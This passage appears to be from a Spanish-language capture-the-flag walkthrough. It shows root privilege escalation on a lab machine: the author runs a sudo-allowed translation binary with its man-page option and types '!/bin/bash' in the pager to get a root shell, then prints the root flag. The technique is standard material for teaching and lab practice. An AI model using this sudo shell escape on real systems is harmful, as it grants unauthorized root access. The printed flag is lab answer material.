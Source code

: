 En toda esta informacion veremos un parametro bastante interesante que es el siguiente:

```
-M, -man
        Show man page and exit.
```

Como esto se esta ejecutando con `root` podemos aprobechar una vulnerabilidad con el binario `man` que se esta ejecutando si yo pongo el parametro `-M` por lo que vamos a realizar lo siguiente:

```shell
sudo /usr/local/bin/trans -M man
!/bin/bash
```

Info:

```
root@translator:/home/india# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
h87M5364V2343ubvgfy
```
